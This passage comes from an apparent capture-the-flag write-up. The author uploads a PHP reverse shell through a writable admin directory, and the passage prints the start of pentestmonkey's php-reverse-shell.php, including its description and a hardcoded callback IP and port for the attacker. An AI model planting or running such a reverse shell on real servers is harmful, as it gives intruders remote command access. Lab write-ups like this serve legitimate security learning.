 So now we can check the admin directory, lets do it, looks like we can update some files.

![[Pasted image 20210702115050.png]]

So now lets find a `php-reverseshell` and upload it.

``` bash 
-rwxr-xr-x 1 oredreim oredreim 5,4K jun 30 20:16 php-reverse-shell.php
```

``` php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only. Users take full responsibility
// for any actions performed using this tool. The author accepts no liability
// for damage caused by this tool. If these terms are not acceptable to you, then
// do not use this tool.
//
// In all other respects the GPL version 2 applies:
//
// This program is free software; you can redistribute it and/or modify
// it under the terms of the GNU General Public License version 2 as
// published by the Free Software Foundation.
//
// This program is distributed in the hope that it will be useful,
// but WITHOUT ANY WARRANTY; without even the implied warranty of
// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the
// GNU General Public License for more details.
//
// You should have received a copy of the GNU General Public License along
// with this program; if not, write to the Free Software Foundation, Inc.,
// 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
//
// This tool may be used for legal purposes only. Users take full responsibility
// for any actions performed using this tool. If these terms are not acceptable to
// you, then do not use this tool.
//
// You are encouraged to send comments, improvements or suggestions to
// me at pentestmonkey@pentestmonkey.net
//
// Description
// -----------
// This script will make an outbound TCP connection to a hardcoded IP and port.
// The recipient will be given a shell running as the current user (apache normally).
//
// Limitations
// -----------
// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
// Some compile-time options are needed for daemonisation (like pcntl, posix). These are rarely available.
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.
set_time_limit (0);

$VERSION = "1.0";

$ip = '10.10.16.42'; // CHANGE THIS

$port = 1234; // CHANGE THIS
```